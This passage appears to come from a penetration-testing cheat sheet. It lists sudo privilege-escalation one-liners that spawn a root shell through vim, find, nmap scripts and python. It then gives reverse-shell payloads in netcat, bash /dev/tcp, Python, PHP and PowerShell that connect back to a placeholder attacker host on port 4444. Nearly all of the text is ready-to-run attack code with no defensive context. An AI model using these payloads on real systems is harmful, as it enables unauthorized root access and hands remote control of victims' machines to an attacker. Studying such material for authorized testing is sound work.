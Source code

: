 Examples:
```bash
# vim
sudo vim -c ':!/bin/sh'

# find
sudo find / -exec /bin/sh \; -quit

# nmap (older versions)
echo "os.execute('/bin/sh')" > shell.nse
sudo nmap --script=shell.nse

# python
sudo python -c 'import os; os.system("/bin/sh")'
```

### Reverse Shells

#### Netcat Listeners
```bash
# Attacker machine
nc -lvnp 4444
nc -lvnp 4444 -e /bin/bash  # Windows

# Victim machine (Linux)
nc attacker_ip 4444 -e /bin/bash
bash -i >& /dev/tcp/attacker_ip/4444 0>&1

# Victim machine (Windows)
nc attacker_ip 4444 -e cmd.exe
```

#### Bash Reverse Shell
```bash
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
0<&196;exec 196<>/dev/tcp/attacker_ip/4444; sh <&196 >&196 2>&196
```

#### Python Reverse Shell
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker_ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP Reverse Shell
```php
php -r '$sock=fsockopen("attacker_ip",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### PowerShell Reverse Shell
```powershell
$client = New-Object System.Net.Sockets.TCPClient("attacker_ip",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
